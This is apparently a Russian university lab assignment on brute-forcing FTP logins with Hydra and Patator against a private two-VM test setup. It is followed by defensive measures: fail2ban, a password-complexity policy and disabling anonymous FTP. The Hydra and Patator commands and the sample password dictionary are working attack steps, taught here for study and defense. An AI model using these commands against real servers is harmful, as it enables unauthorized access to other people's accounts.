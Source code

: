 # Лабораторная работа №12 - Исследование способов перебора паролей для FTP-серверов (в учебных целях)  

#### **Цель работы:**  
Изучить методы перебора паролей для FTP-серверов с использованием инструментов **Hydra** и **Patator** (в учебных целях). Освоить защитные меры против подобных атак.  

---

## **1. Подготовка виртуального стенда**  

### **1.1. Создание виртуальных машин**  
Используем **2 виртуальные машины**:  
- **VM1 (Атакующий)**: Kali Linux (или другая система с установленными Hydra и Patator).  
- **VM2 (Цель)**: Сервер с FTP (например, vsftpd на Debian/Ubuntu).  

### **1.2. Настройка сети**  
- Обе машины должны находиться в одной сети.  
- **VM1 (Kali Linux)**: `192.168.56.10`  
- **VM2 (FTP-сервер)**: `192.168.56.20`  

### **1.3. Установка FTP-сервера на VM2**  
```bash
sudo apt update
sudo apt install vsftpd -y
sudo systemctl start vsftpd
sudo systemctl enable vsftpd
```  

### **1.4. Создание тестовых пользователей**  
```bash
sudo useradd -m testuser1
sudo passwd testuser1  # Установите пароль "12345"
sudo useradd -m testuser2
sudo passwd testuser2  # Установите пароль "qwerty"
```  

---

## **2. Перебор паролей с помощью Hydra**  

### **2.1. Установка Hydra** (если нет в Kali Linux)  
```bash
sudo apt install hydra -y
```  

### **2.2. Создание словаря паролей**  
Создаем файл `passwords.txt`:  
```
12345
qwerty
password
admin
123456
letmein
```  

### **2.3. Запуск атаки перебора**  
```bash
hydra -l testuser1 -P passwords.txt ftp://192.168.56.20 -V
```  
**Где:**  
- `-l` – имя пользователя.  
- `-P` – путь к файлу с паролями.  
- `-V` – подробный вывод.  

**Пример успешного подбора:**  
```
[STATUS] 192.168.56.20 ftp login: testuser1 password: 12345
```  

---

## **3. Перебор паролей с помощью Patator**  

### **3.1. Установка Patator**  
```bash
sudo apt install patator -y
```  

### **3.2. Запуск атаки**  
```bash
patator ftp_login host=192.168.56.20 user=testuser2 password=FILE0 0=passwords.txt -x ignore:mesg='Login incorrect.'
```  
**Где:**  
- `host` – IP FTP-сервера.  
- `user` – имя пользователя.  
- `password=FILE0` – чтение паролей из файла.  
- `-x ignore:mesg='Login incorrect.'` – игнорировать неудачные попытки.  

**Пример успешного подбора:**  
```
Found valid credentials: testuser2:qwerty
```  

---

## **4. Защита от перебора паролей**  

### **4.1. Ограничение попыток входа (fail2ban)**  
```bash
sudo apt install fail2ban -y
sudo nano /etc/fail2ban/jail.local
```  
**Добавляем:**  
```ini
[vsftpd]
enabled = true
maxretry = 3
bantime = 600
```  

### **4.2. Использование сложных паролей**  
```bash
sudo apt install libpam-pwquality
sudo nano /etc/security/pwquality.conf
```  
**Настройки:**  
```ini
minlen = 12
dcredit = -1
ucredit = -1
ocredit = -1
lcredit = -1
```  

### **4.3. Отключение анонимного FTP**  
```bash
sudo nano /etc/vsftpd.conf
```  
**Проверяем:**  
```ini
anonymous_enable=NO
local_enable=YES
chroot_local_user=YES
```  

**Важно:** Данная работа предназначена **только для учебных целей**. Несанкционированный перебор паролей незаконен.